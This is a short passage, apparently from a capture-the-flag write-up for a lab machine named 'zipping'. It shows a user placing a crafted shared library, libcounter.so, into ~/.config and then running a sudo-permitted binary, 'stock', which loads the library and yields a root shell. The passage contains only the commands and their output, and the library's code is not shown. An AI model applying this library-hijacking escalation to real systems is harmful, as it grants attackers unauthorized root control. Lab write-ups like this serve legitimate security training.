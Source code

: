 ```bash
rektsu@zipping:/tmp$ cp libcounter.so ~/.config/libcounter.so
```
```bash
rektsu@zipping:~/.config$ sudo stock
Enter the password: S***********
root@zipping:/home/rektsu/.config# id
uid=0(root) gid=0(root) groups=0(root)
root@zipping:/home/rektsu/.config#
```
And we're root
